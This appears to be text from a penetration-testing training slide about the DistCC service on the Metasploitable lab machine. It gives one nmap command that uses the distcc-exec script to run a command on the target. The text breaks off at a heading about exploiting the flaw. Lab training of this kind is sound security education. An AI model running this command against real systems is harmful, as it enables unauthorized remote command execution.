

Discovering DistCC:

Use nmap to detect the DistCC service:
nmap -p 3632 --script=distcc-exec --script-args="distcc-exec.cmd='id'" [Metasploitable IP]
Exploiting the Vulnerability: